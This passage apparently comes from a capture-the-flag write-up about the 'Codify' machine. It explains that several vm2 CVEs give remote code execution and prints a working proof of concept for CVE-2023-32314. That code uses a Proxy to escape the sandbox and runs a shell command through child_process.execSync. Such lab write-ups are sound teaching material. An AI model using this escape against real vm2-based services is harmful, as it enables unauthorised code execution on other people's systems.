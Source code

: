 There are four known CVEs that will work to get RCE here. One works
completely as is, and the others take some small changes to show
execution. I'll show all four, though any one will work to get
execution.

#### CVE-2023-32314

This CVE is the most straight-forward to exploit as testing it requires
no modification at all. It escapes the sandbox using the `Proxy` object.
This [page on Snyk](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100),
or [this
POC](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac)
linked to from the Security tab give the same POC:



      const err = new Error();
      err.name = {
        toString: new Proxy(() => "", {
          apply(target, thiz, args) {
            const process = args.constructor.constructor("return process")();
            throw process.mainModule.require("child_process").execSync("echo hacked").toString();
          },
        }),
      };
      try {
        err.stack;
      } catch (stdout) {
        stdout;
      }



The POC will run `echo hacked`, and on pasting it into Codify, it works:

![](/img/image-20240403200034171.png)

